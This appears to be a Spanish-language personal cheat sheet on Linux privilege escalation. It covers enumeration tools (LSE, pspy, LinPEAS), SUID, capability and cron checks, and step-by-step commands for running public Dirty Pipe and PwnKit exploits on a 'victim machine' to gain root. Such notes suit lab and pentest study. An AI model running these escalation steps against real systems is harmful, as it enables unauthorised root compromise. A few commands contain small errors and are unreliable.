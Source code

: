 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios #Capabilities #SUID #LSE #PSPY #LinPEAS #CRON #Netstat #GCC

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
* [GTFOBins](https://gtfobins.github.io/)

## Enumeracion Tools Automaticas Enumeration

-   [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

Esta herramienta nos ayudar a identificar vulnerabilidades para poderla explotar y escalar privilegios.
	**lse.sh** > Mirar en modo Raw
	Copiar la url resultante en Raw 

```bash
❯ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh # Binario que debemos de descargar
❯ chmod +x lse.                     # Le damos permisos de ejecucion 
❯ ./lse.sh                          # Ejecutamos el binario

	# h = Panel de ayuda
``` 


-   [PSPY](https://github.com/DominicBreuker/pspy)

Esta herramienta nos ayudara a identificar tareas, procesos que se están ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar

```bash
❯ ./pspy                            # Ejecutamos el binario 
```


* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)     ->     Para descargar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
```bash
❯ chmod 777 linpeas.sh                   # Agregamos los privilegios para poder ejecutarlo en la maquina victima
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```


## Manual 

```bash 
❯ groups <user>                           # Para ver a que grupos pertenece
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ su root                                          # Para convertirnos en root y debemos de proporcionar una passwd
```

```bash
❯ uname -a                                         # Miramos informacion del Kernel
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial
```

```bash
❯ ./bash -p                                        # Y asi obtenemos la bash del root, esta debe tener permisos SUID con la flag 's'

	# p = privilege
```

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 

	# 27017 = Mongo el cual podemos usar para buscar usuario y passwd
```


#### gcc

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

#### Privilegios SUID

* [GTFOBins](https://gtfobins.github.io/)
* [Pkexec-PwnKit](https://github.com/berdav/CVE-2021-4034)

Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root

	# /usr/bin/pkexec = Vulnerable al PwnKit           
```

```bash
# Para el Pkexec en la maquina de atacante 
❯ git clone https://github.com/berdav/CVE-2021-4034          # Nos descargara un archivo el cual debemos de comprimir y pasarlo a la maquina victima por http
❯ zip -r comprimido.zip CVE-2021-4034/                       # Comprimimos el archivo CVE y le ponemos de nombre 'comprimido.zip' 

# Para el Pkexec en la maquina victima
❯ unzip comprimido.zip                                       # Descomprimimos el archivo .zip
❯ cd CVE-2021-4034/                                          # Nos dirigimos al directorio
❯ make                                                       # Compilamos todo lo que se encuentra ahi
❯ ./cve-2021-4034                                            # Ejecutamos el archivo .sh y con eso nos convertimos en root
```

#### Capabilities

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

Tipos de capabilities:
	# /usr/bin/perl cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
	# /usr/bin/python3.9  cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
```


#### Tareas CRON

```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

* Podemos crearnos un Script Manual para ver las tareas que se están ejecutando y ver los procesos nuevos, antiguos, así como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Después encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nano file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```

---